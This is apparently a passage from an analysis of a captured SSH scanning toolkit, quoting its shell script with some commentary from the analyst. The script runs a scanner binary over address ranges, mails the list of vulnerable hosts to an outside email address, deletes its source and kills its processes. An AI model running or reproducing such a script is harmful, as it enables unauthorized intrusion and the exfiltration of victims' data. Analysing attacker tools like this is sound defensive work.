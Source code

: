    ./a $1.0
    ./a $1.1
    ./a $1.2
    ./a $1.3
    ./a $1.4
    ./a $1.5
    ./a $1.6
    ./a $1.7
    ./a $1.8
    ./a $1.9
    ./a $1.10
    ./a $1.11
    ./a $1.12
    ./a $1.13
    ./a $1.14
    ./a $1.15
    ./a $1.16
    ./a $1.17
    ./a $1.18
    ./a $1.19
    ./a $1.20

    cat vuln.txt |mail -s "vuln.txt" luchian8@gmail.com

    #SNIP

    rm -rf sshc.c
    killall -9 a
    killall -9 a
    killall -9 pscan2
    if [ "$(whoami)" != "root" ]; then
    ./sshf
    else
    ./sshf0
    fi
    clear
    echo "[+] momentul adevarului :)"
    echo "[+] ne odihnim cateva secunde .."
    sleep 5
    echo ""
    cat vuln.txt
    cat vuln.txt >> .vulnold.txt
    echo > vuln.txt
    cat a6 >> vuln.txt
    else
    echo "[+] Checking files.."
    sleep 3
    echo " error"
    echo "[+] Some file are missing"
    echo "[+] Please reinistall it from your wget"
    echo "[+] or ask pulea !"

I wonder who this luchian8@gmail.com is... Anyway, `a` is another shell script running:
